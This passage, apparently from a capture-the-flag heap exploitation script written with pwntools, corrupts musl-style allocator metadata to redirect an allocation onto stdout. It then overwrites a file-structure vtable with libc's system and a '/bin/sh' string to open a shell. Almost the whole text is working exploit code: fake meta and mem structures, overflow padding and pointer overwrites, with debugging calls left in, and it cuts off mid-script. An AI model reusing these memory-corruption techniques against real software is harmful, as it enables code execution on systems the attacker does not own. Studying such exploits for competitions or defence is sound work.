         fake_mem = b''
        fake_mem += p64(fake_meta_addr) # meta
        fake_mem += p32(1) # active_idx
        fake_mem += p32(0)

        payload = b''
        payload += b'A' * 0xa90
        payload += p64(secret) + p64(0)
        payload += fake_meta
        payload += fake_mem
        payload += b'\n'

        # for i in range(1):
        #     query((i+48).to_bytes(1,'little')*0x30,0x30)
        query(payload,0x1200)
        store(usage[0]+b'\x00'+b'0',0x4,p64(chunk_addr+0xf0)+p64(fake_mem_addr+0x10)+p64(2)+p64(0x20)+p64(0x0000000014d6c0ff)+p64(0),0x30)
        #gdb.attach(io)
        delete(usage[0],len(usage[0]))
        #gdb.attach(io)

        # Overwrite the fake bin so that it points to stdout
        fake_meta = b''

        fake_meta += p64(fake_meta_addr) # prev
        fake_meta += p64(fake_meta_addr) # next
        fake_meta += p64(stout - 0x10) # mem
        fake_meta += p32(1) + p32(0) # avail_mask, freed_mask
        fake_meta += p64((sc << 6) | last_idx)
        fake_meta += b'A' * 0x18
        fake_meta += p64(stout - 0x10)

        payload = b''
        payload += b'A' * 0xa80
        payload += p64(secret) + p64(0)
        payload += fake_meta
        payload += b'\n'
        #gdb.attach(io)
        query(payload, 0x1200)
        #gdb.attach(io)
        # Call calloc(0x80) which returns stdout and call system("/bin/sh") by overwriting vtable
        #fake_stdout = b'E;sh;'.ljust(0x10, b'\x00')+p64(0)*7+p64(system)*2+p64(fake_meta_addr+0x80)+p64(0)*3+p64(1)+p64(0)
        payload = b''
        payload += b'/bin/sh\x00'
        payload += b'A' * 0x20
        payload += p64(heap_base)
        payload += b'A' * 8
        payload += p64(heap_base)
        payload += b'A' * 8
        payload += p64(libc.symbols['system'])
        payload += b'A' * 0x3c
        payload += p32((1<<32)-1)
        #payload = b'E;sh;'.ljust(0x10, b'\x00')+p64(0)*7+p64(libc.sym['system'])*2+p64(fake_meta_addr+0x80)+p64(0)*3+p64(1)+p64(0)
        #store(b'f',0x1, payload,0x80)
        gdb.attach(io)
